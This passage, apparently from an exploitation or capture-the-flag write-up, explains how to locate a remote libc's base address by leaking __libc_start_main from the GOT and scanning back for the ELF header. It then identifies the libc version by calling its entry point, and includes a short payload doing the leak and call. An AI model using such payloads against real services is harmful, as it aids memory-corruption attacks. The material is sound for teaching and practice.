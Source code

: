 They are also page-aligned. This means the last 12 bits (3 last nibbles) are set
to 0. The `__libc_start_main` function is usually quit early in the libc :
around `0x20000`

It is possible to find the libc's base address with only a few tries :
1. leak address of `__libc_start_main`
2. clear the least significant 12 bits
3. substract `0x20000`
4. read address (using `puts` for example)
5. if the 4 first bytes are `\x7FELF`, this is the base address
6. substract `0x1000` and go to 4

`__libc_start_main` is at `base + 0x00023fb0`.


### libc version

The glibc can be executed. It prints the exact version and exits.
```sh
$ /usr/lib/libc.so.6
GNU C Library (GNU libc) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
[...]
```

The entrypoint of an ELF file is located at `base + 0x18` :

```sh
$ readelf -h /bin/sh | fgrep Entry
  Entry point address:               0x208b0

xxd -g 8 -e /bin/sh | head
00000000: 00010102464c457f 0000000000000000  .ELF............
00000010: 00000001003e0003 00000000000208b0  ..>.............
00000020: 0000000000000040 00000000000e22d0  @........"......
00000030: 0038004000000000 001800190040000b  ....@.8...@.....
00000040: 0000000400000006 0000000000000040  ........@.......
00000050: 0000000000000040 0000000000000040  @.......@.......
00000060: 0000000000000268 0000000000000268  h.......h.......
00000070: 0000000000000008 0000000400000003  ................
00000080: 00000000000002a8 00000000000002a8  ................
00000090: 00000000000002a8 000000000000001c  ................
```

(More information about the ELF file format can be found on the elf(5) man page)

The payload to leak the libc is :
```php
$libc  = puts(0x00403fe8); // __libc_start_main@got.plt
$libc  = $libc - 0x00023FB0;

$entry = puts($libc + 0x18);
call($libc + $entry);
```

This shows the following text, which tells that the libc is Debian's 2.28-10 :
```
GNU C Library (Debian GLIBC 2.28-10) stable release version 2.28.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 8.3.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<http://www.debian.org/Bugs/>.
```
